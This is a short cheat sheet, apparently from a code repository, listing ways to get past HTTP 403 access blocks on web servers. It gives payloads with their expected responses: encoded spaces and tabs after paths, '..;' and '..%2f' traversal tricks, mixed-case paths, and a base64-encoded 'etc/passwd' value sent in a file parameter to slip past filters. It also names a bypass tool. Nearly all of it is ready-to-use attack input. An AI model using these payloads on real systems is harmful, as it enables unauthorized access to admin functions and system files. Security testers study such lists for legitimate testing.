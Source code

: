 # 403 Bypass

1- using space symbols  
exmaple:  
/admin -> 403  
/admin%09 -> 200  
/admin%20 -> 200  
  
2- use traversal  
Example:  
/admin -> 403  
/..;/admin -> 200  
  
you can fuzz with traversal sometimes that's end with results  
  
Example: /..;/FUZZ  

3 - mixed case

upload --> 403

uPlOaDs --> 200


---

https://target/api/admin/users/123 <-- blocked
https://target/api/fakepath/..%2f/admin/fakepath/..%2f/users/123. <-- Try this


---


url/?f=etc/passwd ==> 403

url/?f=L2V0Yy9wYXNzd2Q= ==> 200

/%3f/ ==> 200 Ok


---

Tools

403Jump

